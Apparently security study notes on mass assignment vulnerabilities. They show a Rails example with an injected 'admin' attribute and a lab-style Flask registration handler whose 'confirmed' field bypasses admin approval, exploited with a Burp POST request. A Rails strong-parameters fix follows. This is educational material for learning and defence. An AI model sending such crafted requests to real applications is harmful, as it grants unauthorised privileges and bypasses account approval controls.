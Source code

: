 Given this:
```ruby on rails
class User < ActiveRecord::Base
  attr_accessible :username, :email
end
```

An attacker can exploit by sending more attributes other than username and email into user
```javascript
{ "user" => { "username" => "hacker", "email" => "hacker@example.com", "admin" => true } }
```


## Exploiting Mass Assignment Vulnerability

Say we sign up for an app, but we have to wait for an administrator to approve before we can log in.

```/opt/asset-manager/app.py
for i,j,k in cur.execute('select * from users where username=? and password=?',(username,password)):
  if k:
    session['user']=i
    return redirect("/home",code=302)
  else:
    return render_template('login.html',value='Account is pending for approval')

try:
  if request.form['confirmed']:
    cond=True
except:
      cond=False
with sqlite3.connect("database.db") as con:
  cur = con.cursor()
  cur.execute('select * from users where username=?',(username,))
  if cur.fetchone():
    return render_template('index.html',value='User exists!!')
  else:
    cur.execute('insert into users values(?,?,?)',(username,password,cond))
    con.commit()
    return render_template('index.html',value='Success!!')
```
- If k is set, then we will log in
- If cond = true, we will log in

Send this POST with Burp Suite:
```
POST /register ...
username=new&password=test&confirmed=test
```
- Login with new:test

**Prevention

One should explicitly assign the attributes for the allowed fields, or use whitelisting methods provided by the framework to check the attributes that can be mass-assigned.

```
class UsersController < ApplicationController
  def create
    @user = User.new(user_params)
    if @user.save
      redirect_to @user
    else
      render 'new'
    end
  end

  private

  def user_params
    params.require(:user).permit(:username, :email)
  end
end
```
